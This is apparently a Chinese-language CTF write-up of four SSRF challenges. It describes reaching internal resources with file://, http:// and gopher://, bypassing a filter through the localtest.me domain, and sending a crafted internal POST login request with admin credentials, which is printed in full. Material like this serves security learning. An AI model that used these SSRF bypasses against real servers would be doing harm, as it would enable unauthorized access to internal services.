# SRF01
先用file連上去檔案位置



再去看看原始碼，他就直接說是base64編碼了，就直接丟解碼器

### flag就BOOM出來了 

# SRF02

因為不能用file所以改用http連伺服器



然後就會發現跟第一題又是一樣的~~奧步~~

# SRF03
這題偏特別，我最後是把payload list的網址一個一個~~通靈~~出來後發現 ```http://localtest.me/local```是可以的




最後依然是絕對不會拋棄我們的base64

# SRF04

修改burp出來的封包，成以下

```
_POST /local HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://ctfd-ais3.crazyfirelee.tw:9074
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://127.0.0.1
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 32

username=admin&password=password
 ```

再以url轉碼



再來就真的通靈試試看gopher的方式連線


再看看原始碼就有了被熟悉的base64編碼過的response封包


最後以base64解碼回我們看得懂的封包
